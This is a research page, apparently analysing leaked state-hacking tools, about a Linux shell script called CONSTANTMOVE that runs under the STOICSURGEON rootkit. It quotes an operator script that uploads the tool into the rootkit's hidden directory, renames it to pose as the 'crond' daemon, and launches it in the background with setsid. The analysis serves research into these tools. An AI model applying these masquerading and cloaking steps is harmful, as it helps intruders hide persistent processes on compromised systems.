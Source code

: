 ### [Home](https://CybernetiX-S3C.github.io)   [Main](https://CybernetiX-S3C.github.io/main)

[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# CONSTANTMOVE

The dump only contains an opscript of this tool. From this opscript, we learn that CONSTANTMOVE is a shell script (has extension `.sh`) that can be run on Linux (explicit reference in opscript) and probably all other Unixes. Deploying it, is as easy as running it with bash.

The script will usually be ran "cloaked", under the protection of the STOICSURGEON rootkit.

Opscript.Constantmove:

```


# 2010-07-21 09:24:00 EDT 

# VARIABLES:
#     MAIN-DIR    = STOIC HIDDEN DIR
#     RUN-AS      = Name to run script as, will be in ps as "/bin/bash RUN_AS" (though cloaked)
#     SET-SID     = Set to nothing at all if setsid is not there (will likely only be there on Linux)

mx
:%s,MAIN_DIR,STOICHIDDENDIR,g
:%s,RUN_AS,crond,g
:%s,SET_SID,setsid,g
`x





# DEPLOYMENT: 

-cd MAIN_DIR
-lsh sed "s,# .*,,g" /current/up/constantmove.sh | sed "s,^ *$,,g" | sed "s,die  *\([0-9][0-9]*\).*,die \1,g" | grep -v "^$" > /current/up/constantmove.sh.clean ; cat /current/up/constantmove.sh.clean
-put /current/up/constantmove.sh.clean RUN_AS
-addpath .
-wh -U setsid RUN_AS
# note the NEXT LINE is backgrounded with an AMPERSAND
SET_SID RUN_AS &
=ps | egrep -v grep | egrep "sh |RUN_AS|sleep"
```
